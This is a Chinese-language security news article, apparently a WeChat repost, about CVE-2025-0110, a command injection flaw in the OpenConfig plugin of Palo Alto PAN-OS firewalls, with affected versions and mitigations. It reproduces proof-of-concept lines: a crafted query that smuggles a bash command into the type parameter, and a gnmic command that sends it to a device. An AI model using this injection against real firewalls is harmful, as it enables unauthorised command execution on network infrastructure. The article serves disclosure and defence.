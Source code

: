 #  Google 发布 PAN-OS 防火墙中 CVE-2025-0110 命令注入漏洞的 PoC   
 Ots安全   2025-02-21 12:05  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tadyGSmNgjxmJLhAzyV84rL4HVeB3NwMrmyCS5DVwXYIRPVkjkhkR5qlBEljsIYZK67qWM7jV4sXQw/640?wx_fmt=webp&from=appmsg "")  
  
一名 Google 研究人员披露了Palo Alto Networks PAN-OS 防火墙软件漏洞 (CVE-2025-0110) 的详细信息和概念验证 (PoC) 漏洞利用。该漏洞的 CVSSv4 评分为 8.6（高），可能允许经过身份验证的攻击者以管理员权限在底层操作系统上执行任意命令。  
  
该漏洞存在于 PAN-OS OpenConfig 插件中，该插件允许通过gnmi.Subscribe函数检索系统日志。通过操纵 OpenConfig API 请求中的 type 参数，攻击者可以在防火墙上注入并执行任意 bash 命令。  
  
该漏洞是使用滥用 OpenConfig API 中的 XPATH 查询结构的特制请求触发的：  
  
```
/pan/logging/query/custom[direction=fwd][max_logs=2][period=last-24-hrs][type=$(echo system > file1; cat file1)]
```  
  
  
利用gnmic工具-https://github.com/openconfig/gnmic，攻击者可以在PAN-OS设备上执行任意bash命令：  
  
```
./gnmic -a <IP>:<PORT> -u <username> --password=<password> --skip-verify \-e json_ietf subscribe --mode once --log \--path 'pan-logging:/pan/logging/query/custom[type=$(echo system > file1; cat file1)][direction=fwd][max_logs=2][period=last-24-hrs]'
```  
  
响应确认命令已成功执行，证明了系统对命令注入的敏感性。  
  
该漏洞影响启用了 OpenConfig 插件的 PAN-OS 部署，包括：  
- PAN-OS 11.0.4 及更高版本（附带 OpenConfig 2.0.1+）  
  
- PAN-OS 10.2.11 及更高版本（附带 OpenConfig 2.0.2+）  
  
OpenConfig API 可通过端口 9339 上的 PAN-OS 管理接口访问，一旦暴露将会带来巨大的安全风险。  
  
Palo Alto Networks 已在 OpenConfig Plugin 版本 2.1.2 中发布了安全修复程序，该版本包含在 PAN-OS 11.2.5 及更高版本中。用户可以通过以下方式降低风险：  
1. 将 OpenConfig 插件更新至版本 2.1.2 或更高版本。  
  
1. 如果不需要，请禁用或卸载 OpenConfig 插件。  
  
1. 限制管理接口对可信网络的访问。  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
